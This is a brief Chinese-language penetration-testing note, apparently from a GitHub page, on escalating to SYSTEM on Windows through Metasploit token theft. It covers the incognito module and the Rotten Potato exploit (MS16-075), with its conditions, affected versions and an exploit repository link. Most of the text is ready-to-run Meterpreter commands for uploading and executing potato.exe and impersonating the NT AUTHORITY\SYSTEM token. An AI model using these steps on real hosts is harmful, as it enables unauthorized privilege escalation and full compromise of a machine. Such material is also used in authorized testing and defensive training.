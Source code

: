 ## **MSF令牌窃取提权**
条件：本地用户权限
msf会话中
```
use incognito
list_tokens -u           #列出有的令牌,其中NT TAUTHORITY\SYSTEM为我们需要的
impersonate_token "NT AUTHORITY\SYSTEM" #窃取system令牌
getuid 即可是system
```

## **MSF配合烂土豆实现令牌窃取**
烂土豆(RottenPotato）MS16-075提权是一个本地提权，一般只针对本地用户，不支持域用户，这里更多是支持服务型用户。

原理：
烂土豆一个溢出漏洞功能是可以欺骗“NT AUTHORITY\SYSTEM”账户通过NTLM认证到我们控制的TCP终端，对这个认证过程使用中间人攻击（NTLM重放），为“NTAUTHORITYSYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的WindowsAPI调用实现的，模仿这个令牌。

条件：
只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

适用版本：
Windows7/8/10，Windowsserver2008/2012


利用：
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075>    
将烂土豆工具给上传至需要提权的机器中，potato.exe
msf会话中执行
```
execute -cH -f ./potato.exe    ##执行烂土豆程序
use incognito                  ##加载窃取功能
list_tokens -u                 ##查看可窃取的令牌
impersonate_token "NT AUTHORITY\SYSTEM"   ##使用令牌
getuid
``` 